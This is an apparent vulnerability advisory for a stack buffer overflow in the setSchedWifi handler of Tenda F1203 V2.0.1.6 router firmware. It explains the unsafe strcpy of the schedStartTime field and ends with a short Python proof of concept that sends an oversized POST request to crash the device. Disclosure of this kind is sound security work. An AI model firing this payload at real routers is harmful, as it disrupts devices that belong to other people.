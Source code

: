 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2494.html

## Affected version

F1203 V2.0.1.6

## Vulnerability details

The Tenda F1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided `schedStartTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240319134334271](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134334271.png)

![image-20240319134305657](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134305657.png)

![image-20240319134322756](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134322756.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319134353227](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134353227.png)
